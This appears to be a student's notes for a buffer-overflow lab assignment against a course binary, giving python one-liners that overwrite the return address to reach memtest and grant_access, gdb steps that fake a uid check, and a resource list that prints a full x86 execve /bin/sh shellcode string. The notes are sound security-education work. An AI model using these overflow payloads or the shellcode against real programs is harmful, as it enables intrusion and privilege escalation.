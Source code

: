 # Assignment 2

## Step 1

```sh
objdump -d victim > source.dump
# find memtest address and make it little endian
# 08049206 <memtest>
python -c "print 'A' * 24 + '\x06\x92\x04\x08'" | ./victim
>>Return address: 0x00000000
>>Frame address:  0xffafffdc
```

## Step 2

```sh
id -ur #1000
printf '%x\n' 1000 #0x3e8
# bof to \xa2\x92\x04\x08 0x080492a2 <grant_access>
python -c "print 'A' * 24 + '\xa2\x92\x04\x08'" > out2
gdb victim
(gdb) r < out2
(gdb) b * 0x80492b3 # before cmp
(gdb) set $eax = 0x3e8
```

## Step 5

Hijack Victim OS?

# Resources

- [Helper Exploit-Exercises-Protostar](https://github.com/z3tta/Exploit-Exercises-Protostar)
- https://0xrick.github.io/binary-exploitation/bof6/
- ToBreak \xCC\*64
- NOP \x90
- [Py.Struct](https://docs.python.org/2/library/struct.html)
- http://shell-storm.org/
- http://shell-storm.org/shellcode/
- https://www.youtube.com/watch?v=oS2O75H57qU
- https://www.youtube.com/watch?v=T03idxny9jE
- http://shell-storm.org/shellcode/files/shellcode-811.php
- \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
- To execute shell code, you can edit a function's contents directly: [link](https://stackoverflow.com/questions/5661021/how-to-run-assembly-in-gdb-directly)
- `esp`: the **top of the stack**. It points to (holds the address of) the most-recently pushed value on the stack.
- `eip`: is the instruction pointer. It points to (holds the address of) the first byte of the **next instruction to be executed**.
- `ebp`: is usually set to esp at the start of the function. Function parameters and local variables are accessed by adding and subtracting, respectively, a constant offset from ebp. All x86 calling conventions define ebp as being preserved across function calls. ebp itself actually points to the previous frame's base pointer, which enables stack walking in a debugger and viewing other frames local variables to work.

## Endian

![Big-Endian](https://upload.wikimedia.org/wikipedia/commons/thumb/5/54/Big-Endian.svg/280px-Big-Endian.svg.png)
![Little-Endian](https://upload.wikimedia.org/wikipedia/commons/thumb/e/ed/Little-Endian.svg/280px-Little-Endian.svg.png)

